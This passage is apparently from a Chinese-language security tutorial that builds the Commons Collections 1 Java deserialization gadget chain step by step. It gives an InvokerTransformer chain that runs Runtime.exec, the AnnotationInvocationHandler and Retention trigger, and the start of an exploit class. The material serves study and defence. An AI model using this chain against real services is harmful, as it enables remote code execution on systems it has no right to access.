 执行后成功弹出计算器

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231511285.png)

不过这个 demo 有几个问题

1. Runtime 类实际上是不能序列化的

1. 代码中是通过手动调用 put 来触发回调, 那么我们如何在反序列化即 readObject 的过程中自动调用 put 方法

对于第一个问题, 我们需要通过反射来获取 Runtime, 因为 Class 对象继承了 Serializable, 能够被序列化

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        new ConstantTransformer(1)
};
```

对于第二个问题, ysoserial 使用了 AnnotationInvocationHandler 这个代理类, 它的 readObject 最终会调用 put 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231516807.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231519342.png)

其中 `var5.setValue()` 最终调用的就是 `memberValues.put()`

那么我们只需要将 outerMap 放入 AnnotationInvocationHandler 中, 让服务器反序列化这个代理类, 不就可以弹出计算器了吗?

不过还有两个问题

1. AnnotationInvocationHandler 的构造函数要求传入的 Class 必须使用了 Annotation 注解, 并且只继承自 Annotation 接口
2. memberValues 内必须存在某个 key, 这个 key 的内容为 type 类中的某个方法

p 牛在这里找的是 Retention 这个类

```java
@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.ANNOTATION_TYPE)
public @interface Retention {
    /**
     * Returns the retention policy.
     * @return the retention policy
     */
    RetentionPolicy value();
}
```

存在 value 方法, 那么我们只需要向 Map 中放入这个 key, 最终就会触发反序列化

```java
package com.example.CommonsCollections1;

import com.example.Reflection;
import com.example.Serialization;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
```